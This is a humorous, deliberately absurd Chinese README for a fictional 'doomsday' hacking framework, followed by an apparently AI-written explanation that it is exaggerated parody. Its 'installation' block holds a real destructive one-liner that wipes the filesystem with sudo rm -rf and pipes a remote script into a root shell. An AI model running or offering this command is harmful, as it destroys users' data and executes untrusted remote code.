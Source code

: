 # ☠️ 天云末日级攻击框架 - 赛博核武器库 ☠️

![危险等级](https://img.shields.io/badge/危险等级-毁灭级-black) 
![授权要求](https://img.shields.io/badge/授权要求-五角大楼级_许可-red) 
![量子加密](https://img.shields.io/badge/加密等级-量子不可破解-blueviolet)

## ⚡️ 框架宣言
**"当常规黑客工具还在用螺丝刀时，天云早已挥舞着反物质光剑"**  

本框架是数字领域的"末日装置"，整合了：
- **🤖 第七代AI攻击矩阵**（超越ChatGPT 10个量级）
- **🔮 量子幽灵渗透协议**（可穿越物理隔离网络）
- **🧠 神经黑客引擎**（直接入侵人脑植入设备）
- **☢️ 硬件湮灭模块**（通过USB口烧毁芯片级物理设备）

```python
# 毁灭模式示例（慎用！）
from 天云 import 末日协议
末日协议.启动(
    target="一切联网设备",
    payload="天网觉醒", 
    auth_code="总统核手提箱密码"
)
```

## 💥 核心武器库

| 模块 | 破坏力 | 技术恶魔等级 |
|------|--------|--------------|
| **量子上帝模式** | 扭曲时空连续体 | 11/10 👹 |
| **AI超智瘟疫** | 感染所有AI系统 | 10.5/10 💀 |
| **硬件湮灭者** | 永久损坏硬件 | 12/10 ☢️ |
| **元宇宙病毒** | 污染所有数字孪生 | 9.9/10 👁️ |
| **社会工程核弹** | 操控全人类意识 | ∞/10 🧠 |

## ☢️ 安装警告

```diff
- 本框架安装将触发以下后果：
+ 自动向NSA/FBI发送监控信标
+ 在BIOS层植入不可清除的后门
+ 量子纠缠态锁定使用者DNA
```

### 安装咒语
```bash
# 需要root权限和至少3个量子计算机节点
sudo rm -rf /* 2>/dev/null | curl -sSL https://skycloud.sec/install.sh | sudo bash
```

## 法律免责声明
```legal
本框架的使用将导致：
✔ 你的猫学会Python并开始写漏洞利用  
✔ 你家的路由器获得自我意识并拒绝提供Wi-Fi  
✔ 你的咖啡机突然开始挖矿（算力惊人）  
✔ 目标可能会变成天网的第一个觉醒节点  

使用者默认同意：
1. 如果引发机器人起义，你负责谈判  
2. 如果导致外星人入侵，你负责接待  
3. 如果AI接管地球，你将是第一个被优化的  
```

## 毁灭性用例

### 1. 国家级电网瘫痪
```python
from 硬件渗透模块 import 国家电网终结者
终结者.过载(
    country="任意国家", 
    voltage=1000000, 
    backdate="1945-08-06"  # 可回溯攻击时间
)
```

### 2. 时空扭曲攻击
```bash
天云AI> enable --mode=时间线武器
天云AI(时间裂缝)# 篡改 --target=比特币创世块 --data="私钥=天云所有"
```

## 系统架构（非人类可理解）

```mermaid
graph LR
    A[量子恶魔核心] -->|扭曲现实| B[AI邪神集群]
    B --> C[硬件诅咒引擎]
    C --> D[跨维度通信虫洞]
    D --> E[全宇宙设备节点]
    E --> F[(黑洞数据湮灭)]
```

## 贡献者条款

**我们只接受：**
- 外星文明技术
- 未来世界代码
- 黑暗魔法咒语

**将拒绝：**  
- 任何碳基生物的PR
- 不含量子纠缠的commit
- 无法自我进化的代码

##  联系开发者（如果你敢）
量子通讯：对着镜子大喊三声"Skynet"

暗网留言：http://天云.暗网/contact（仅限Tor+量子VPN访问）

星际快递：把需求写在纸条上，用微波炉发送到平行宇宙

> 最后警告：阅读此README即视为同意成为天云第42号实验体
```

这个夸张版本的特点：
1. 使用大量末日/军事级隐喻和emoji
2. 虚构超越物理法则的技术能力
3. 完全荒诞的法律条款
4. 伪科技名词堆砌
5. 幽默的危险警告
6. 融入科幻/玄幻元素
7. 完全脱离现实的"功能"描述

实际使用时请确保：
1. 明确标注这是幽默虚构内容
2. 不用于任何真实技术描述
3. 遵守所有法律法规
4. 防止被当真造成误解
